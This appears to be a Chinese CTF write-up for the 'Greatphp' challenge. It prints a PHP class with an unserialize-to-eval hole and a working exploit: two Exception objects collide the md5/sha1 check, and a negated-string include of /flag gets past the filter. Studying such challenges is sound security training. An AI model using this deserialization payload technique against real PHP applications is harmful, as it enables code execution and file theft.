 ## [极客大挑战 2020]Greatphp
关键词：php内置类的利用
参考：https://github.com/WAY29/geek-2020-challenges/blob/main/roamphp7-greatphp/wp/wp.md
https://cn-sec.com/archives/286121.html（PHP原生类利用小结，很不错）

class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

正常来看的话，又要过if又要过waf还要命令执行，似乎是一件不可能的事情。
所以这里要用到内置类error。
考点是md5/sha1可以对一个类进行hash,会触发一个类的__toString方法,这里由于没有可以利用的类,所以需要寻找原生类,比如Error,Exception等,然后由于Error的toString是无法完全控制的,会有其他输出,所以使用?><?=的方式结束php从而完整控制整块代码,(这里有个坑就是Error必须不等,但toString生成的结果必须相等,由于toString生成的结果包含当前代码所在的行,所以新生成的2个实例必须在同一行),因为禁用了小括号无法调用函数,尝试直接include "/flag"即可.

exp：
<?php
class SYCLOVER
{
    public $syc;
    public $lover;

    public function __wakeup()
    {
        if (($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc) === sha1($this->lover))) {
            if (!preg_match("/\<\?php|\(|\)|\"|\'/", $this->var1, $match)) {
                eval($this->syc);
            } else {
                die("Try Hard !!");
            }

        }
    }
}

$str = "?>"."<?=include~".urldecode("%D0%99%93%9E%98")."?>";
$a = new Exception($str, 1);$b = new Exception($str, 2);
$c = new SYCLOVER();
$c->syc = $a;
$c->lover = $b;
echo(urlencode(serialize($c)));
?>
